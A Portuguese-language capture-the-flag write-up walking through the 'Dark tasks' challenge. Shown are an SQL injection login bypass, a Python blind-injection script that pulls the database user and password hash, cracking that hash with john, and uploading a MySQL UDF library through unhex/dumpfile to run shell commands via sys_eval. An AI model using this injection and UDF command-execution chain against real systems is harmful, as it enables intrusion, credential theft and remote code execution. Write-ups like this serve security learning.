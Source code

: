 Dark tasks
==========

Acessando a página http://178.63.58.69:8086/, havia uma imagem e no código-fonte
foi possível visualizar duas mensagens em b64. Ignorando elas, partimos para olhar
o `robots.txt`, o que nos deu uma boa pista:

```
User-agent: *
Disallow: /D4rk_MySQL.php
```

Acessando tal arquivo, notamos que se tratava de um Adminer, algo parecido com
phpmyadmin. O curioso é que ele aceitava fazer login com usuários inexistentes,
contudo sem qualquer privilégio.

Após uma dica do TheZakMan, percebi que havia deixado passar um detalhe na index do site.
A mensagem em b64 indicava uma outra página: `Th3-D4rk-T4sks/`.

Neste dir havia uma tela de login, a qual estava vulnerável a SQL injection.

Com um simples `') or 1=1-- ` foi possível efetuar o login. Olhando os links no meu,
notamos um outro arquivo que era possível injetar SQL (`viewtask.php?id=`). O que
pode nos ajudar descobrir que usuário está sendo usado para acessar o bd do site.

Desenvolvendo um código para ajudar nesse trabalho (não quis usar sqlmap), ficou:

```python
import requests
import string
import sys

def do_login():
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/'
	r = requests.post(url, data={'user': "') or 1=1-- "})
	return r

def do_viewtask(p,c):
	url = 'http://178.63.58.69:8086/Th3-D4rk-T4sks/viewtask.php'
	r2 = requests.get(url, params=p, cookies=c)
	return r2.text

def do_query(s,c):
	r2 = do_viewtask({'id': s.encode('base64')}, c)
	return r2.find('viewtask.php?') != -1

r = do_login()

match = ''
for n in xrange(20):
	found = False
	for c in string.digits + '@_*' + string.letters:
		payload = "' or user() like '%s%%' or '0" % str(match+c)
		payload = payload.replace('_', '\_')

		if do_query(payload, r.cookies):
			found = True
			match += c
			print match
			break
	if not found:
		print 'end!'
		break
```

Com esse código identifiquei que o usuário se tratava de `dark`. A partir dai,
foi ler o campo `password` da tabela `mysql.user` referente a este usuário.
Trocando o payload para:

`' or (select password from mysql.user where user = 'dark') like '%s%%' or '0`

Obtive o seguinte hash: `*E56A114692FE0DE073F9A1DD68A00EEB9703F3F1` (41-byte)

O que foi tarefa fácil para o **john**:

```
Loaded 1 password hash (MySQL 4.1 double-SHA-1 [128/128 SSE2 intrinsics 4x])
123123           (?)
guesses: 1  time: 0:00:00:00 DONE (Sat Nov 22 09:37:43 2014)  c/s: 1369  trying: 123123 - 888888
```

Agora então voltando para o Adminer, posso logar com `dark/123123` e ver se tem
permissão pra fazer alguma coisa. (Neste ponto, já havia tido a dica do TheZakMan
que havia dito que usou UDF pra resolver) Então fui direto pensar em como jogar uma
**lib_mysqludf_sys.so** lá no servidor. (lib encontrada no google que forneceve varias
funções sys_* para executar comandos no servidor)

Como o servidor não tinha a função `from_base64`, pensei em passar o hex do binário
da lib.

`$ python -c "print open('lib_mysqludf_sys.so').read().encode('hex')"`

E rodando o SQL lá no Adminer:

`select unhex('7f454c4601010100000000000000000...') into dumpfile '/usr/lib/mysql/plugin/sigsegv.so' from dual`

Percebemos que a query foi executada com sucesso! Agora então só bastava criar uma UDF que executasse comando no servidor
que retornasse o output. Então escolhemos a `sys_eval` da lib, e criamos executando:

`CREATE FUNCTION sys_eval RETURNS string SONAME 'sigsegv.so';`

Tornando possível verificar os arquivos no servidor (`ls`), o que logo nos levou a:

`select sys_eval('cat /home/Th3_D@rk_S3cr3t/FL@g_Bala7.txt') from dual`

Que nos deu: FLag(Th3_Gr3@t_7aMaDa)
